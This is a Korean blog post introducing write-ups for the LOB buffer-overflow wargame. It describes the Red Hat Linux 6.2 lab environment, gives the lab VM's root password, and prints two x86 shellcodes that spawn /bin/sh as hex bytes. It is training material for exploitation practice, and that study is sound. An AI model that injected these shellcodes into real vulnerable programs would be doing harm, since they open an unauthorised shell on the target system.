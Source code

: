 ```yaml
---
layout: single
title: "LOB Intro"
#description: ""
date: 2016-02-05 12:00:00 -0400
# modified: 
tags: 
- WarGame
- WriteUp
- Pwnable
comments: true
share: true
---
```


BOF의 OS의 종류와 버전은 LOB의 VM을 통해 Red Hat Linux 6.2라는 것을 알 수 있으며 리눅스 환경이므로 ELF 파일구조를 사용함과 어셈블리어가 at&t 문법임을 유추해 낼 수 있다. 그리고 아래와 같이 i686 아키텍처이므로 32bit 메모리를 사용함을 알 수 있다.

![arch 명령어로 확인한 LOB의 아키텍처 종류]({{site.url}}{{site.baseurl}}/assets/images/2019-06-05-LOB-Intro/0.png)


LOB 풀이에 사용한 쉘코드는 다음과 같다.

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80
```

25bytes shellcode(execve(“/bin/sh”) 사용)

```
\xd9\xc5\xd9\x74\x24\xf4\xb8\x15\xc3\x69\xd7\x5d\x29\xc9\xb1\x0b\x31\x45\x1a\x03\x45\x1a\x83\xc5\x04\xe2\xe0\xa9\x62\x8f\x93\x7c\x13\x47\x8e\xe3\x52\x70\xb8\xcc\x17\x17\x38\x7b\xf7\x85\x51\x15\x8e\xa9\xf3\x01\x98\x2d\xf3\xd1\xb6\x4f\x9a\xbf\xe7\xfc\x34\x40\xaf\x51\x4d\xa1\x82\xd6
```

/x2f가 없는 shellcode


그리고 LOB의 default shell(bash)의 버전이 낮아 /xff의 입력을 /x00으로 받아들이는 오류가 있으므로 bash2를 사용하도록 한다. root 권한으로 이를 한꺼번에 바꾸도록 한다. root의 패스워드는 hackerschoolbof이다. root로 로그인 후 /etc/passwd를 열어 bash를 bash2로 모두 치환해준다.

![bash2]({{site.url}}{{site.baseurl}}/assets/images/2019-06-05-LOB-Intro/1.png)


다음은 C언어의 stack frame structure이다.


![[memory map of a typical C ELF executable on x86]]({{site.url}}{{site.baseurl}}/assets/images/2019-06-05-LOB-Intro/2.png)